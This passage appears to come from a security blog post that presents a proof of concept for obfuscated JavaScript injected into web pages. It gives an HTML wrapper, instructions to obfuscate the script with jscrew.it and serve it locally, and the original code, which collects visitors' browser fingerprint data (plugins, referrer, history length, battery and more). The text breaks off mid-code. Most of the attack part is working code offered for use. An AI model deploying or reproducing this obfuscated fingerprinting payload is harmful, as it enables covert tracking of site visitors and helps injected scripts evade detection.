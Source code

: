 
> Including Payload under html file for easy running.Just Double Click. 
{: .prompt-tip }



## POC

A thousands of websites with this type of obfuscated JavaScript injected into their webpage.

Spin up a Python Server:

```bash
python3 -m http.server 8000
```

- **Obfuscated Script**: 


```html
<!DOCTYPE html>
<html>
<head>
  <title>Advanced Client Info Collector</title>
</head>
<body>
  <script>
    <<<PASTE OBFUSCATED CODE>>>
  </script>
  <p>Collecting info...</p>
</body>
</html>
```

> Replace <<<PASTE_OBFUSCATED_CODE>>> with your obfuscated code.Below is the original code to obfuscate.Use the site `https://jscrew.it/` to do that stuff. 
{: .prompt-tip }

- **Original Code**:

```javascript
<script>
    (async function() {
      const info = {
        userAgent: navigator.userAgent,
        platform: navigator.platform,
        hardwareConcurrency: navigator.hardwareConcurrency || 'N/A',
        deviceMemory: navigator.deviceMemory || 'N/A',
        screenResolution: `${screen.width}x${screen.height}`,
        colorDepth: screen.colorDepth,
        timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
        language: navigator.language,
        online: navigator.onLine,
        cookiesEnabled: navigator.cookieEnabled,
        javaEnabled: navigator.javaEnabled ? navigator.javaEnabled() : 'N/A',
        plugins: Array.from(navigator.plugins).map(p => p.name).join(', ') || 'None',
        touchSupport: 'ontouchstart' in window || navigator.maxTouchPoints > 0,
        referrer: document.referrer || 'None',
        historyLength: history.length,
        windowSize: `${window.innerWidth}x${window.innerHeight}`,
        localTime: new Date().toString()
      };

      // Battery status if available
      if (navigator.getBattery) {
        try {
          const battery = await navigator.getBattery();
          info.battery = {
            level: battery.level,
```